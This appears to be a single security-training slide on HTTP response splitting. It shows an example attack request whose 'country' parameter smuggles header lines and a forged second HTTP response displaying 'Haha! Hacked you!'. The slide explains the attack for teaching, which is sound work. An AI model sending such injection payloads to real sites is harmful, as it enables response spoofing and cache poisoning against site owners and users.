

# HTTP Response Splitting
Attack Request:
https://mysite.com/index.php?country=

“ca
Connection: Keep-Alive
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 30

<html>Haha! Hacked you!</html>”